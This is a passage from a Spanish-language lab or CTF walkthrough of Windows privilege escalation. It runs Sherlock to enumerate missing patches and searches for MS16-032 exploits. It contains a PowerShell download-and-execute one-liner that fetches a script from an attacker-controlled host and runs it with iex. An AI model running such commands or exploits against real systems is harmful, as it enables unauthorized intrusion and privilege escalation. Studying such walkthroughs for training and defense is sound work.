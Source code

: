 2. Subimos y ejecutamos el Sherlock.ps1 con el comando:

```powershell
powershell "iex(new-object net.webclient).downloadString('http://10.10.14.3:8080/Sherlock.ps1');Find-AllVulns" 
```

3. Encontramos 3 posibles Vulnerabilidades

```powershell
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

Tenemos 3 posibles Vulnerabilidades, empezaré por la primera.

Buscando exploits encuentro lo siguiente:

```bash
❯ searchsploit ms16-032
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Local Privilege Escalation (MS16-032)                                                                   | windows/local/39809.cs
Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Secondary Logon Handle Privilege Escalation (MS16-032) (Metasploit)                                     | windows/local/40107.rb
Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)                                                   | windows/local/39719.ps1
Microsoft Windows 8.1/10 (x86) - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032)                                     | windows_x86/local/39574.cs
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
``` 
